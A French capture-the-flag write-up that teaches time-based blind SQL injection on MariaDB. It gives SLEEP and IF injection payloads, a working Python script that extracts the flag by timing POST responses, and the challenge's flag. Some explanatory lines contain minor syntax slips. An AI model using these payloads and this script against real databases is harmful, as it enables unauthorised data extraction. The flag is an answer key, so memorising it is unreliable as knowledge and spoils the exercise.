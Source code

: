 # Writeup - Injection SQL #4: Quand est-ce qu'on arrive?

La requête pour ce défi est la même que pour le défi précédent. Seule la table utilisée est différente.

```sql
SELECT id,flag FROM challenge4 WHERE id='NOTRE_INPUT';
```

La différence par rapport au défi précédent est que l'on ne nous dit même pas s'il y a eu une erreur ni s'il y a des résultats. Le principe de de défi est le même que le précédent. Par contre, il faut donc trouver une manière de créer une comportement que l'on peut distinguer afin de recevoir des réponses à des questions booléennes. Une des choses qu'on peut manipuler via MariaDB est le temps que prend le serveur pour nous envoyer la réponse. En utilisant la fonction `SLEEP`, on peut artificiellement allongé le temps que le serveur prend pour nous répondre. Avant de construire notre requête et de scripter le tout, vérifions si `SLEEP` fonctionne.

```sql
 -- Entrée
' OR SLEEP(5) --
 -- Requête
 SELECT id,flag FROM challenge4 WHERE id='' OR SLEEP(5) -- ';
```

Le délai avant d'avoir une réponse est remarquablement plus long (au moins 5 secondes). Ça fonctionne!

La prochaine étape est de rendre cet appel à `SLEEP` conditionnel à une comparaison. Pour ceci, on fera appel à la fonction SQL `IF`. Son format est `SLEEP(<condition>, <si vrai>, <si faux>)`. On peut tester notre construction ainsi:

```
 -- Entrée
' IF(1>0, SLEEP(2), 0) --
 -- Requête
SELECT id,flag FROM challenge4 WHERE id='' IF(1>0, SLEEP(2), 0) -- ;

 -- Entrée
' IF(0>1, SLEEP(2), 0) --
 -- Requête
SELECT id,flag FROM challenge4 WHERE id='' IF(0>1, SLEEP(2), 0) -- ;
```

La première de ces 2 requêtes devraient prendre plus de temps alors que la deuxième prendra environ autant de temps qu'un requête vide.

Maintenant que nous pouvons avoir un comportement distinctif conditionnel à une comparaison que l'on contrôle. Il faut adapter le script que nous avons créé pour le challenge #3 afin de regarder le temps entre la requête et la réponse comme facteur plutôt que le contenu de la page.

**NOTE**: Selon la vitesse de votre connexion, la vitesse du serveur ainsi que la variation de temps entre le déla pour les réponses normales, il vous faudra mettre un `SLEEP` plus ou moins long. Faites plusieurs requêtes pour voir le temps que prend un requête sans `SLEEP` et mettez un déla suffisant pour différencier fiablement les requêtes où le `SLEEP` est exécuté de celles où il ne l'est pas.

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-
import requests
from datetime import timedelta

URL = "https://challenges.unitedctf.ca:18000/challenge4.php"
HEADERS = {}
SLEEP_SECONDS = 0.3 # Sleep for 0.3 second. Adjust duration for your connection speed so you can differentiate responses.

query = "' OR IF(ASCII(SUBSTRING(flag, {}, 1)) > {}, SLEEP(" + str(SLEEP_SECONDS) + "), 0) -- " # Placeholders are for Position and ascii value respectively
validate = "' OR IF(flag='{}', SLEEP(" + str(SLEEP_SECONDS) + "), 0) -- "

def find_next_letter(index):
    resp = requests.Response()
    low = 0
    high = 0x7f # Maximum value in ASCII range

    # Use binary search over the ASCII range. Faster than enumerating each character
    while high > low:
        char = (low + high) // 2
        try:
            resp = requests.post(URL, data={"flagID": query.format(index, char)}, headers=HEADERS)
        except ConnectionError as e:
            print(e)
        if resp.elapsed > timedelta(seconds=SLEEP_SECONDS):
            low = char + 1
        else:
            high = char
    return chr(low)

def find_password():
    currentPass = ""
    while requests.post(URL, data={"flagID": validate.format(currentPass)}, headers=HEADERS).elapsed < timedelta(seconds=SLEEP_SECONDS):
        currentPass += find_next_letter(len(currentPass) + 1) #SUBSTRING is 1-indexed
        print(currentPass)
    return currentPass

print("Flag: " + find_password())
```

After some time, we get the flag:

Flag: **FLAG-c3qUmJTeAW_Three_Tables_for_the_Elven-admins_under_the_RDBMS_SZcIvzI3do**
